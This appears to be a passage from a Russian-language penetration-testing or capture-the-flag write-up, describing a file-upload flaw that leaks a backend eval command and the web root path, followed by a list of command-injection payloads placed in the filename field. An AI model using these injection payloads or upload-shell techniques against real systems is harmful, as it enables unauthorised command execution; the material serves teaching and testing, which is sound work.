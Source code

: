 ![](img/img10.png)

Шелл в .zip архиве загружен успешно, но бизнес логика по отображению содержимого завершилось ошибкой.

![](img/img11.png)

В результате мы видим раскрытия:
- условной eval команды выполняющейся в беке cat ```uploads/{{ filename }}.zip```
- абсолютный путь веб рута ```/var/www/html/```uploads/226606c604e1528063ab438ecddda63f/*

### CMD Injection

Так как нам известна ```eval``` команда, то попробуем выполнить ```CMD Injection```. Используя пейлоды в ```filename```:
```
;id;
|id;
||id;
&&id;
&id;
\";id;
\";id;
```
